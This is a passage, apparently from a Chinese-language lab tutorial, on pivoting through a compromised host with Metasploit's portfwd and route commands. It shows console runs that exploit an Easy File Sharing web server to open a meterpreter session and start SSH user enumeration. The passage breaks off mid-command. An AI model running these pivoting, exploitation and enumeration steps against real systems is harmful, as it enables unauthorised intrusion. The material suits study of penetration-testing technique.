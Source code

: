    -----  -----             ------       ---------   1      172.16.0.20:2323  7.7.7.20:80  Forward1 total active port forwards.
meterpreter >
</pre>
<p nodeIndex="95"><span nodeIndex="248">通过访问Attacker的2323端口访问JC的80端口,结果如下:</span></p>

<p nodeIndex="97"><span nodeIndex="250">这里的portfwd模块不只是名字上的端口转发的意思,目前笔者认为portfwd相当于半个ssh正向代理加一个ssh反向代理组成的综合命令,ssh正向反向代理可参考这里的理解 。ssh正向反向代理理解笔者认为portfwd命令之后Attacker可以通过访问Attacker本身ip的2323端口进而访问到JC的80端口期间发生了3件事。</span></p>
<p nodeIndex="98"><span nodeIndex="251">1.RD访问JC的80端口,这里相当于半个ssh正向代理</span></p>
<p nodeIndex="99"><span nodeIndex="252">2.RD绑定已经访问到的JC的80端口的数据到Attacker的2323端口,这里相当于一个ssh反向代理,相当于RD有Attacker的ssh权限</span></p>
<p nodeIndex="100"><span nodeIndex="253">3.攻击者的浏览器访问攻击者自己的172.16.0.20:2323</span></p>
<p nodeIndex="101"><span nodeIndex="254">portfwd的用法如下:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="102">
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
     -L >opt>  The local host to listen on (optional).
     -h        Help banner.
     -l >opt>  The local port to listen on.
     -p >opt>  The remote port to connect on.
     -r >opt>  The remote host to connect on.
meterpreter >
</pre>
<p nodeIndex="103"><span nodeIndex="255">其中-L只能设置为攻击者的ip,不能设置为肉鸡的ip,-L设置的ip可以是攻击者的内网ip,-r也可以是目标的内网ip,两个内网之 间通过meterpreter会话的"隧道"来连通,如果-L后设置的ip是攻击者的内网ip,-r后设置的是目标机器的内网ip,portfwd通过 meterpreter会话连通两台,-l是指攻击者的监听端口,运行完上面的portfwd add -L 172.16.0.20 -l 2323 -p 80 -r 7.7.7.20 命令后,Attacker的2323端口将变成监听状态(也即Attacker会开启2323端口) 这里还要注意route add命令只能是在meterpreter会话中有效,不能系统全局有效,笔者认为route add也是通过meterpreter会 话的"隧道"来实现攻击者能够访问目标机器其他网段机器的,也即在上面的Attacker通过portfwd来实现访问目标机器其他网段 机器而不能因为在portfwd模块运行前由于已经运行了route add模块而由Attacker的浏览器直接访问目标7.7.7.20:80,因为 route add只会给msf的模块提供meterpreter会话通道作为代理服务,只有meterpreter会话下可用的模块可以直接访问7.7.7.x 网段,Attacker的浏览器想直接访问7.7.7.20需要使用proxychins和msf开启的sock4代理.</span></p>
<p nodeIndex="104"><span nodeIndex="256">上面访问得到目标机器JC的80端口信息看出JC运行的是Eash File Sharing Web Server,可用msf中的模块尝试getshell,操作如 下(如果没有在meterpreter中添加路由msf是访问不到7.7.7.20的):</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="105">
msf  > use exploit/windows/http/easyfilesharing_seh 
msf exploit(easyfilesharing_seh) > show options 
Module options (exploit/windows/http/easyfilesharing_seh):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  80               yes       The target port
Exploit target:
   Id  Name
   --  ----
   0   Easy File Sharing 7.2 HTTP
msf exploit(easyfilesharing_seh) > set rhost 7.7.7.20
rhost => 7.7.7.20msf exploit(easyfilesharing_seh) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf exploit(easyfilesharing_seh) > run
[*] Started bind handler
[*] 7.7.7.20:80 - 7.7.7.20:80 - Sending exploit...
[+] 7.7.7.20:80 - Exploit Sent
[*] Sending stage (957999 bytes) to 7.7.7.20
[*] Meterpreter session 2 opened (172.16.0.20-172.16.0.11:0 -> 7.7.7.20:4444) at 2016-12-26 14:21:11 +0300
</pre>
<p nodeIndex="106"><span nodeIndex="257">或者从JC(7.7.7.20)22端口入手:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="107">
msf > use auxiliary/scanner/ssh/ssh_enumusers 
msf auxiliary(ssh_enumusers) > set rhosts 7.7.7.20rhosts => 7.7.7.20msf auxiliary(ssh_enumusers) > set rport 22rport => 22msf auxiliary(ssh_enumusers) > set user_file /usr/share/wordlists/metasploit/default_users_for_services_unhash.txt
user_file => /usr/share/wordlists/metasploit/default_users_for_services_unhash.txt